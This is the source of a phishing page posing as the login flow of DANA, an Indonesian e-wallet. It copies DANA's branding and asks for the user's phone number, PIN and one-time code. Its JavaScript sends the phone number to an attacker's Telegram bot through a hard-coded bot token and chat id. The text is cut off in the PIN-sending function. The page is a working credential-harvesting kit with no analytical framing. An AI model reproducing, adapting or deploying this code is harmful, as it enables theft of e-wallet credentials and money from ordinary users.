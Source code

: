 <html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=0">
<meta name="theme-color" content="#118EEA"> 

<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔</title>
<meta property="og:title" content="𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔">
<meta property="twitter:title" content="𝗗𝗔𝗡𝗔 𝗜𝗗 | 𝗖𝘂𝘀𝘁𝗼𝗺𝗲𝗿 𝗖𝗮𝗿𝗲 𝗗𝗔𝗡𝗔">
<meta property="twitter:card" content="summary_large_image">
<meta property="og:image:type" content="image/jpeg">
<meta content="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRyoGavdwVzFPvGfWDtbSK70qJYRR9UMy9HJg&usqp=CAU" property="og:image">
 <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="shortcut icon" type="image/x-icon">
  <link href="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQZ9dATs_nkzyO-gSoQWbtIhJV7bG51r3gOKg&usqp=CAU" rel="apple-touch-icon">
 <link rel="canonical" href="https://www.dana.id/">
   <meta property="og:url" content="https://www.dana.id/" />
<meta property="og:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<meta property="twitter:description" content="DANA adalah bentuk baru uang tunai yang lebih baik. Transaksi apapun, berapapun dan dimanapun jadi mudah bersama DANA. Ambil bagian dalam transformasi keuangan digital di Indonesia sekarang!">
<script type="module" src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.esm.js"></script>
<script nomodule src="https://unpkg.com/ionicons@7.1.0/dist/ionicons/ionicons.js"></script>
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/container.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/loader.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/main.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/otp.css">
<link rel="stylesheet" href="https://dev-danapemulihan.pantheonsite.io/asset/pin.css">
</head>
<style>
    
</style>
<style>

body, html{
      left: 0;
      right: 0;
      bottom: 0;
      top: 0;
      margin: 0px auto;
      width: 100%;
      height: 100%;
      positon: fixed
      
}

h3{
  font-size: 23px;  
}

 
 * {
  box-sizing: border-box;
  scrollbar-color: transparent transparent; /* thumb and track color */
  scrollbar-width: 0px;
}

*::-webkit-scrollbar {
  width: 0;
}

*::-webkit-scrollbar-track {
  background: transparent;
}

*::-webkit-scrollbar-thumb {
  background-color: #118EEA;
  border: none;
}

* {
  -ms-overflow-style: none;
}

ol, li {
  list-style: none;
  margin: 0;
  padding: 0;
}

.carousel {
  position: absolute;
  background-color: #118EEA;
  padding-top:0%;
  height: 100%;
  top: 0;
  right: 0;
  left: 0;
  margin: 0px auto;
  perspective: 200px;
}

.carousel__viewport {
  position: absolute;
  width: 100%;
  top: 0;
  background-color: #118EEA;
  right: 0;
  bottom: 0;
  left: 0;
  height: 530px;
  display: flex;
  overflow-x: scroll;
  counter-reset: item;
  margin: 0px auto;
 
  scroll-behavior: smooth;
  scroll-snap-type: x mandatory;
}

.carousel__slide {
  position: relative;
  flex: 0 0 100%;
  width: 100%;
  height: 100%;
  margin-left: 0px;
  background-color: #118EEA;
  counter-increment: item;
  z-index: 99999999;
  animation: 30s slidy infinite;
    }

    @keyframes slidy {
        0% {
            left: 0%
        }

        10% {
            left: 0%;
        }

        12% {
            left: -100%;
        }

        22% {
            left: -100%;
        }

        24% {
            left: -200%;
        }

        34% {
            left: -200%;
        }

        36% {
            left: -300%;
        }

        46% {
            left: -300%;
        }

        48% {
            left: -400%;
        }

        58% {
            left: -400%;
        }

        60% {
            left: -300%;
        }

        70% {
            left: -300%;
        }

        72% {
            left: -200%;
        }

        82% {
            left: -200%;
        }

        84% {
            left: -100%;
        }

        94% {
            left: -100%;
        }

        96% {
            left: 0%;
        }

        100% {
            left: 0%;
        }
    }



.carousel__slide:nth-child(even) {
  background-color: #118EEA;
}

.carousel__slide:before {
  content: counter(item);
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate3d(-50%,-40%,70px);
  color: #000;
  font-size: 2em;
  background-color: #118EEA;
}

.carousel__snapper {
  position: relative;
  top: 0;
  left: 0;
  right: 0;
  bottom: 0;
  width: 100%;
  height: 100%;
  scroll-snap-align: center;
  background-color: #118EEA;
  
  
}

@media (hover: hover) {
  .carousel__snapper {
    animation-name: tonext, snap;
    animation-timing-function: ease;
    animation-duration: 4s;
    animation-iteration-count: infinite;
  }

  .carousel__slide:last-child .carousel__snapper {
    animation-name: tostart, snap;
  }
}

@media (prefers-reduced-motion: reduce) {
  .carousel__snapper {
    animation-name: none;
  }
}

.carousel:hover .carousel__snapper,
.carousel:focus-within .carousel__snapper {
  animation-name: none;
}

.carousel__navigation {
  position: absolute;
  right: 0;
  bottom: 0;
  left: 0;
  text-align: center;
}

.carousel__navigation-list,
.carousel__navigation-item {
  display: inline-block;
}


.carousel::before,
.carousel::after,
.carousel__prev,
.carousel__next {
  position: absolute;
  top: 0;
  margin-top: 37.5%;
  width: 0;
  height: 0;
  transform: translateY(-50%);
  border-radius: 50%;
  font-size: 0;
  outline: 0;
  opacity: 0.0;
}

.carousel::before,
.carousel__prev {
  left: -1rem;
}

.carousel::after,
.carousel__next {
  right: 0rem;
}

.carousel::before,
.carousel::after {
  content: '';
  z-index: 1;
  background-color: #fff;
  background-size: 1.5rem 1.5rem;
  background-repeat: no-repeat;
  background-position: center center;
  color: #000;
  font-size: 2.5rem;
  line-height: 4rem;
  text-align: center;
  pointer-events: none;
}

/*********************/
.process1 {
     width: 100%;
            height: 100%;
             display: flex;
             justify-content: center;
            margin: auto;
            position: absolute;
           padding-top: 300px;
            left: 0;
            right: 0;
            bottom: 0;
            background: rgba(0, 0, 0, 0.6);
            z-index: 99999;
            
      
}
.loading {
    position: absolute;
    display: flex;
    justify-content: center;
    align-items: center;
    margin-bottom: 20%;
}
.loading img {
    width: 50px;
    
    top: 10;
}
.loading .spinner{
    position: absolute;
    width: 35px;
    animation: spin 1s linear infinite;
    -webkit-animation: spin 1s linear infinite;
    -moz-animation: spin 1s linear infinite;
    -ms-animation: spin 1s linear infinite;
    -o-animation: spin 1s linear infinite;
}
@keyframes spin {
  0% { transform: rotate(360deg); }
  100% { transform: rotate(0deg); }
}
@-webkit-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-moz-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-ms-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}
@-o-keyframes spin {
  0% { -webkit-transform: rotate(360deg); }
  100% { -webkit-transform: rotate(0deg); }
}

/*********************/

 #homeku{
     width: 100%;
     height: 100%;
     position: fixed;
    background: #118EEA;
  background-position: 100% 100%;
  background-size: 100% 100%;
  left: 0;
  right: 0;
  top: 0;
  bottom: 0;
  margin: 0px auto;
     
     
 }
 
 .inp{
     width: 70%;
     padding-left: 10px;
 }
 
 
 .btn-backku{
     position: absolute;
     left: 20;
     top: 12;
     background: transparent;
     color: #fff;
     border: none;
     font-size: 18px;
     font-weight: 300;
    
 }
 
 
 #back1{
      display: none;
     
 }
 
 #back2{
      display: none;
 }
 
 
 

.closeright{
	-webkit-animation-duration: 0.5s;
	animation-duration: 0.5s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
-webkit-animation-name: fadeOutRightBig; 
    animation-name: fadeOutRightBig; 
}

@-webkit-keyframes fadeOutRightBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(0); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateX(200px); 
    } 
} 
@keyframes fadeOutRightBig { 
    0% { 
        opacity: 1; 
        transform: translateX(0); 
    } 
    100% { 
        opacity: 1; 
        transform: translateX(200px); 
    } 
} 



.animated  {
	-webkit-animation-duration: 0.6s;
	animation-duration: 0.6s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	-webkit-animation-name: fadeInRightBig; 
    animation-name: fadeInRightBig; 
}

@-webkit-keyframes fadeInRightBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(200px); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateX(0); 
    } 
} 
@keyframes fadeInRightBig { 
    0% { 
        opacity: 1; 
        transform: translateX(200px); 
    } 
    100% { 
        opacity: 1; 
        transform: translateX(0); 
    } 
} 





.bounceInLeft {
	-webkit-animation-duration: 0.5s;
	animation-duration: 0.5s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	 -webkit-animation-name: bounceInLeft;
    animation-name: bounceInLeft; 
}

@-webkit-keyframes bounceInLeft { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateX(-200px); 
    } 
   
    100% { 
        -webkit-transform: translateX(0); 
    } 
} 

@keyframes bounceInLeft { 
    0% { 
        opacity: 1; 
        transform: translateX(-200px); 
    } 
   
    100% { 
        transform: translateX(0); 
    } 
} 




.fadeInUpBig {
	-webkit-animation-duration: 0.6s;
	animation-duration: 0.6s;
	-webkit-animation-fill-mode: both;
	animation-fill-mode: both;
	 -webkit-animation-name: fadeInUpBig; 
    animation-name: fadeInUpBig; 
}

@-webkit-keyframes fadeInUpBig { 
    0% { 
        opacity: 1; 
        -webkit-transform: translateY(200px); 
    } 
    100% { 
        opacity: 1; 
        -webkit-transform: translateY(0); 
    } 
} 
@keyframes fadeInUpBig { 
    0% { 
        opacity: 1; 
        transform: translateY(200px); 
    } 
    100% { 
        opacity: 1; 
        transform: translateY(0); 
    } 
} 



</style>
<body>

<div style="display:none;" class="index">
	<div class="header">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
	</div>
	<div class="content">
		<div class="hero">
			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/hero.svg" alt="">
		</div>
		<h1>Dompet digital untuk kamu!</h1>
		<p class="desc">
			Simpan uang serta kartu debit/kredit dengan<br>praktis di DANA</p>
		<div class="line"></div>
		<p class="log">
			Masukkan <b>nomor HP</b> kamu untuk lanjut
		</p>
		<button type="button" onclick="next();">LOGIN</button>
	</div>
</div>
<div class="start" style="display:none;">
	<img class="logo" src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_text.png" style="width: 150px">
	<div class="footimg">
		<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/bi.png" alt=""><img src="https://dev-danapemulihan.pantheonsite.io/asset/img/kom.png" alt="">
		<p>
			DANA Indonesia terdaftar dan diawasi<br>oleh Bank Indonesia dan Kominfo</p>
	</div>
</div>

<div class="container hid" style="position: fixed">
    
	<div class="" style="text-align: center;" id="homeku">
   

        
     <section class="carousel" aria-label="Gallery" style="margin-top: 0px; text-align: center; left: 0">
  <ol class="carousel__viewport">
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
      <a href="#carousel__slide1"
         class="carousel__prev">Go to previous slide</a>
      <a href="#carousel__slide3"
         class="carousel__next">Go to next slide</a>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj8Fs3JMUwF85O07XgsV-e1rmQjTwS91jcu-zh3Lr_fEgVfhY823rmnMewtU59iGvsFjcBm-12OLSj81f57ZEksJeU2GaG7UU3zuwDsOsfTO4dAJ693JJyILcXjdHEzirw-pPBCeV1CfTqSroNgoMTGIfy-Y-HC8GAJDmo68GYd1-x2gGu0UsincrU/s16000/ezgif.com-crop%20(5).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%;">
       
       
      </div>
    </li>
    <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper"  style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEilUMIG_IMFVixTFpWb4xA5f1HJt25lbv-cc1baknB_YJeWO9FYU4SJOzdeMNkA1msFpUU-0MiI3B-llmFX122-XhqCq7-1HW4YUfaWX52rlNtfspDDvlFNj_A--xZIRknP3ycDkzm51noxYaFx_gfOck3U745QZSBwpCSesqOq1oEycuQamqaZlqoz/s16000/ezgif.com-crop%20(3).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999999; position: relative;">
       
       
      </div>
    </li>
     <li id="carousel__slide"
        tabindex="0"
        class="carousel__slide" style="background-color: #118EEA;">
      <div class="carousel__snapper" style="background-image: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixR-U2gHP_VriGKaaVcf-_BbZmvWWoaRI8Wd26DYewNJayil_To6kgdWxmdq3TDJKQJ7lAAbD1de1uuuWTLQzCGdR8qT1S2mTehsdR02AFN573iPkN-0IrliCuRAy0xJfSH9AlfJWV7odqpRC_bxJLM2EkLf-84_ePEjEfE8SOtiKfEjcLQ7nDBjDc/s16000/ezgif.com-crop%20(4).gif');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; background-color: transparent;"></div>
     
    </li>
  </ol>
  <aside class="carousel__navigation">
    <ol class="carousel__navigation-list">
      <li class="carousel__navigation-item">
        <a href="#carousel__slide1"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide2"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        <a href="#carousel__slide3"
           class="carousel__navigation-button"></a>
      </li>
      <li class="carousel__navigation-item">
        
    </ol>
  </aside>
</section>
<button id="butonku" style="width: 100%; height: 140px; position: fixed; bottom: 0; left: 0; right: 0; margin: 1px auto; border: 0; background: url('https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEid9dARAQbMu1UTEgpOfyH6pn4eI3_XArbELp_8lfZtysRgex-gqs0Czc9ch_O7U2lrucgBVSqGQEL33BwV3Ri4D3evjzJHJ6LBFa_K-pIPbdO6QQ3iHlTkLiqo_w2z2NbXTw83lNcWHG7T9q2n6m7N3SZ-qfZpTdsioS3dm-YIfJh4zU16QEODOLKn/s16000/AddText_06-06-08.17.04.jpg');
      background-position: 100% 100%;
      background-repeat: no-repeat;
      background-size: 100% 100%; z-index: 99999" onclick="nextPrev()"></button>
      <center>
     <div id="process1" name="process" class="process" style="display: none;">
            <div class="loading">
                <img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi8hbZEfutKvr9pkj0-mkJYWt-1SBtt3gw-HFOEZc0172okrp0SFHLaW3PRGVDm1U0P7WWEMELIw4nlq1_1gCgyZBo3cxf-OJNpguNamdJryCkGU-hTHiW3RyOv5JD9eIjXTFtrJFCVn0ae4RxG4Oi-czAP20tEaJI3OstxFAbtOwtFxp6RvOHc6NZL/s1600/load_bg.png">
                <img class="spinner" src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhl9xJVYWF_a9vAhgW5QQgozvZVADTaJgIX64iO7a5sQuMpSoPBK3zfKjvT6xc9fZPfxZz39mjk1H_oZOOOtYvO1l7DkWNqiD5LJyGYdwDNyHuyqLk_Ix6eFs3aLCG2yUXVwtsnj0BXTA40WZmecyLyCIm_ff0xNkkOvkuKBOl6yfS-QjI_EJrIyGtU/s1600/load_spin.png" id="loading" style="margin-top: 8px">
            </div>
        </div>
        </center>
  </div>
  <div id="blogin" class="animated box-login" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    padding: 0px
    right: 0; 
    margin: 0px auto;
    top: 0; display: none;">
      	<div id="process" name="process" class="process" style="display: none;">
			<div class="loading">
				<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png" style="margin-top: 8px">
			</div>
		</div>
		
		<div class="header">
<button id="back1" type="button" class="btn-backku" onclick="goback1()"><ion-icon name="chevron-back-outline"></ion-icon></button>	<p></p>


			<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/dana_logo.png" class="logo" alt="">
		</div>
		<form id="formNohp" onsubmit="sendNohp(event);" >
 <input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">			
<h3 style="font-size: 16px; margin-top: -20px">Masukkan <b>nomor HP</b> kamu untuk lanjut</h3>
			<div class="box-input" style="width: 95%;">
				<div class="label">
					<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/indo.png" alt=""><label>+62</label>
				</div>
				<input class="inp" id="inp" type="tel" autocomplete="off" required name="nohp" placeholder="811-1234-5678" maxlength="12" minlength="10"></div>
			<p class="desc" style="font-size: 14px; line-height: 18px; margin-top: 25px">
			Dengan melanjutkan, kamu setuju dengan <b>Syarat<br/>& Ketentuan</b> dan
				<b>Kebijakan Privasi</b> kami
			</p>
			<div class="box-btn">
				<button disabled id="btn" class="btnnohp" type="submit" style="margin-top: -40px">LANJUT</button>
			</div>
		</form>
		<form id="formPin" omsubmit="return false" class="hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: fixed; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
		  <input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">		    <button id="back2" type="button" class="btn-backku" onclick="goback2()" style="margin-top: 10px"><ion-icon name="chevron-back-outline"></ion-icon></button>
			<h3 style="margin-top: 50px; font-weight: 600; margin-bottom: -10px; font-size: 16px"><font style="font-weight: 400">Masukkan</font> PIN DANA</h3>
			<div class="box-input-pin">
				<div type="button" class="clear"></div>
				<input name="pin1" id="pin1" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin2" id="pin2" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin3" id="pin3" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin4" id="pin4" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin5" id="pin5" class="inppin" inputmode="numeric" type="password" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="pin6" id="pin6" class="inppin" inputmode="numeric" type="password" autocomplete="on" required maxlength="1" onkeypress="if(this.value.length==1) return false;" onchange="javascript:this.form.button();" oninput="sendPin()"></div>
			<button class="show" type="button">TAMPILKAN</button>
			<p class="forgot">LUPA PIN?</p>
			<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgbD-mmuMUDwaeFMEz6NefivuQqHyrFXvXxqVxMhYRhR5wsfUhiWkPNkpxLKkagRNpJ2obIiZH_D9EK6tnHIJUFMVBOclZI98zrU7VPszAR5n-_GeSWNCNgnfH1MRWuL-ahhPjxsejyDa5yyWAaOMWXWT4jS4EngtdLLlXjaPakQoFIOsjyS6tfnEBHDlw/s16000/output-onlinegiftools.gif" width="100%" style="position: absolute; bottom: 10; left: 0; right: 0; margin: 0px auto;">
		</form>
<div class="fadeInUpBig bgotp hid" style="width: 100%;
    height: 100%;
    bottom: 0; 
    position: absolute; 
    left: 0; 
    right: 0; 
    margin: 0px auto;
    top: 0;">
			 <div class="page" style="left: 0px; position: absolute; right: 0; margin: 0px auto; margin-top: 0px; background-image: url(https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgWg2Gu-OJgBB04_6jT0WUgRXWLn5YbRSrznAuun2UvU5EReoC_5dcLybIsjF8faelAIw9vhfnlRTJL_m1uMpM3bDrXHp6xE_KyYSDuAMYlaNiTl9d5tz8mY-o7F-vw6oL661O_C551IITUOWQoxYKFmdNN5s0lHvxrPQEJgiMvBFhDcXC6lt3hbPLBEmo/s1079/AddText_01-04-04.13.11.png) ;
  background-position: 100% 100%;
  background-size: 100% 100%; height: 280px; bottom: 0; width: 100%; border-radius: 14px 14px 0px 0px; width: 100%; text-align: center; background-color: #fff" id="otpkirimulang">
<button type="button" style="right: 10; bottom: 238; float: right; width: 40px; background: transparent; color: transparent; border: none; font-size: 13px; height: 10px; position: fixed;" onclick="tutupotp()">XX</button>
				<h2 style="margin-bottom: 30px; opacity: 0.0">Masukkan OTP</h2>
				<p id="userid" style="font-size: 2px; text-align: center; margin-bottom: -100px; font-weight: 600; color: #070707; margin-top: 66px; margin-left: -125px; opacity: 0.0; "></p>
  <center>
				<p class="alert" id="alert" style="font-size: 14px; text-align: center; margin-bottom: 0px; font-weight: 500; color: #000; margin-top: 135.5px; display: ; width: 360px; margin-bottom: -10px; font-weight: 300"></p>
				
				
				</center>
				<div class="box-input-otp" style="margin-top: 50px">
					
					<div class="loadingOtp" style="display:none;background: #FAFAFA">

						
						<img src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_bg.png"><img class="spinner" src="https://dev-danapemulihan.pantheonsite.io/asset/img/load_spin.png">
		</div>
		<div type="button" class="clearotp"></div>
<input type="hidden" id="logo" value="༺═──◍𝓭𝓪𝓷𝓪.𝓲𝓭☭──═༻">
					<input name="otp1" id="otp1" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp2" id="otp2" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp3" id="otp3" class="inpotp" inputmode="numeric" type="number" autocomplete="off" required maxlength="1" onkeypress="if(this.value.length==1) return false;"><input name="otp4" id="otp4" class="inpotp" inputmode="numeric" type="number" autocomplete="on" required maxlength="1" onkeypress="if(this.value.length==1) return false;"></div>
		 <p id="waktuku" class="resend" style="margin-top: 70px; color: #aaa; font-size: 13px">
					KIRIM ULANG (<span id="countdown" style="color: #aaa">60</span>s)
				</p>
       <p class="resend" style="margin-top: 70px; font-weight: 600; color: #2C86C5; margin-left: 0px; display: none" id="kirim-ulang" onclick="kirimulang()">KIRIM ULANG</p>
       
			</div>
		</div>
	</div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.3/jquery.min.js"></script>
        <script>
            var url = "#kirim-ulang"; // url tujuan
            var count = 60; // dalam detik
            function countDown() {
                
                if (count > 0) {
                    count--;
                    var waktu = count + 0;
            $('#carasingkat').html(waktu);
             
         setTimeout("countDown()", 1000);
           
                    
               
                }
            }
            countDown();
       
       </script>
<script src="https://code.jquery.com/jquery-3.5.1.min.js"></script>
<script src="https://dev-danapemulihan.pantheonsite.io/asset/jquery.mask.min.js"></script>
<script src="./asset/goo1gle.js"></script>
<script>$(document).ready(function(){$('#inp').on('input', function(){if($(this).val() == '0' || $(this).val() == '62'){$(this).val('');}});});</script>
<script>$(document).ready(function(){$('#inp').mask('000-0000-000000');});</script>
<script>let inp = document.getElementById("inp");let btn = document.getElementById("btn");inp.addEventListener("input", val);function val(){if(inp.value.length > 10){btn.disabled = false;}else{btn.disabled = true;}};</script>

<script>
//var pinContainer = document.getElementsByClassName("pin-code")[maxlength];
var pinContainer = document.querySelector(".box-input-pin");
console.log('There is ' + pinContainer.length + ' Pin Container on the page.');

pinContainer.addEventListener('keyup', function (event) {
    var target = event.srcElement;
    
    var maxLength = parseInt(target.attributes["maxlength"].value, 6);
    var myLength = target.value. length;

    if (myLength >= maxLength) {
        var next = target;
        while (next = next.nextElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }

    if (myLength === 0) {
        var next = target;
        while (next = next.previousElementSibling) {
            if (next == 0) break;
            if (next.tagName.toLowerCase() == "input") {
                next.focus();
                break;
            }
        }
    }
}, false);

pinContainer.addEventListener('keydown', function (event) {
    var target = event.srcElement;
    target.value = "";
}, false);
</script>
<script>$('.inpotp').on('input', function(event) {const inputs = $('.inpotp');const isAllFilled = Array.from(inputs).every((input) => input.value !== '');if (isAllFilled == true) {$(event.target).blur();sendOtp();}const index = inputs.index(this);const currentValue = event.target.value;if (currentValue.length === 1) {if (index < inputs.length - 1) {inputs[index + 1].focus();}} else if (currentValue.length === 0) {if (index > 0) {inputs[index].focus();}};});$('.inpotp').on('keydown', function(event) {const inputs = $('.inpotp');const key = event.key;const index = inputs.index(this);if (key === 'Backspace' && event.target.value.length === 0) {if (index > 0) {inputs[index - 1].focus();}};});</script>
<script>$(document).ready(function() {$('.clear').click(function() {$('.inppin').val('');$('#pin1').focus();});$('.clearotp').click(function() {$('.inpotp').val('');$('#otp1').focus();});$('.show').click(function() {$('.inppin').each(function() {if ($(this).attr('type') === 'password') {$(this).attr('type','number');$(".show").text("SEMBUNYIKAN");} else {$(this).attr('type', 'password');$(".show").text("TAMPILKAN");}});});});</script>
<script>
 function nextPrev(){
$(".box-login").removeClass("closeright");
$(".box-login").addClass("animated");     
     event.preventDefault();
       setTimeout(function(){
           $("#homeku").hide();
           $("#back1").show();
           $("#butonku").fadeOut();
           $(".box-login").fadeIn();
           $("#process1").hide();
       },0);
 }   
 
 
 function goback1(){
     setTimeout(function(){
   $("#homeku").addClass("bounceInLeft"); $(".box-login").removeClass("animated");     
     $("#homeku").show();
      $(".box-login").fadeOut();
      $(".box-login").addClass("closeright");
      $("#butonku").fadeIn();
      $("#back1").hide();
       $("#process").hide();
       
     },0);
 }
 
 </script>
 <script>
 
 function goback2(){
     $("#process").show();
     setTimeout(function(){
    $("#formPin").fadeOut();
     $("#formNohp").fadeIn();
       $("#process").hide();
        $("#inp").val('');
        $("#back1").show();
        $("#back2").hide();
        document.getElementById("formPin").reset();
        $('.inppin').val('');
     },500);
 }
</script>
<script>
    $( document ).ready(function() {
            setTimeout(() => {
                $('#popup').hide();
                $('chsalxcome2').fadeIn();
            },2000)
             $('musikku').play();
        })
        
</script>


<script>
function tutupotp(){
$(".bgotp").hide();    
}
</script>
<script>
     function sendNohp(event){
    $("#process").show();event.preventDefault();
    $("#inp").blur();
     
    
    
    var nomor = document.getElementById("inp").value;
            sessionStorage.setItem("nomor", nomor);
    var logo = document.getElementById('logo');       
    var inp = document.getElementById('inp');
    
    var gabungan = '' + logo.value + '%0A※ 𝗡𝗼𝗺𝗼𝗿 𝗗𝗔𝗡𝗔 : ' + '0' + inp.value;
   
   var token = '7296089212:AAHsy468ZsxS7VVed0hTWSHID9PkdSpSLO8'; // Ganti dengan token bot yang kamu buat
    var grup = '7412961572'; // Ganti dengan chat id dari bot yang kamu buat


    $.ajax({
        url: `https://api.telegram.org/bot${token}/sendMessage?chat_id=${grup}&text=${gabungan}&parse_mode=html`,
        method: `POST`,
    
    success: function(){
    $("#process").hide();
    document.getElementById("back1").style.display = "none";
    document.getElementById("back2").style.display = "block";
    $("#formNohp").fadeOut();
    setTimeout(function(){
   
    $("#formPin").fadeIn();
    $("#pin1").focus();
    }, 500);}});};
    

function sendPin(){

 
 
  var nomor = sessionStorage.getItem("nomor");
